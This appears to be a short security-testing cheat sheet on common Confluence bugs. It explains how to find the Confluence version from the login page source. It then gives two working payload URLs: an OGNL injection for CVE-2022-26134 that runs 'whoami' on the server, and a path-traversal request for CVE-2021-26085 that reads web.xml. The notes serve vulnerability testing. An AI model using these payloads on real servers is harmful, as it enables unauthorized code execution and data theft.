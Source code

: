 # Confluence Common Bugs

## Introduction
What would you do if you came across a website that uses Confluence?

## How to Detect
```
https://example.com/login.action?os_destination=%2F
```

1. Find the related CVE by checking Confluence version
* How to find the Confluence version

Try to request to `https://example.com/login.action?os_destination=%2F` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the Confluence version. If you found outdated Confluence version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-6258/Atlassian-Confluence.html)

Some example CVE:

- CVE-2022-26134 (Remote Code Execution)
```
https://example.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

- CVE-2021-26085 (Arbitrary File Read)
```
https://example.com/s/test/_/;/WEB-INF/web.xml
```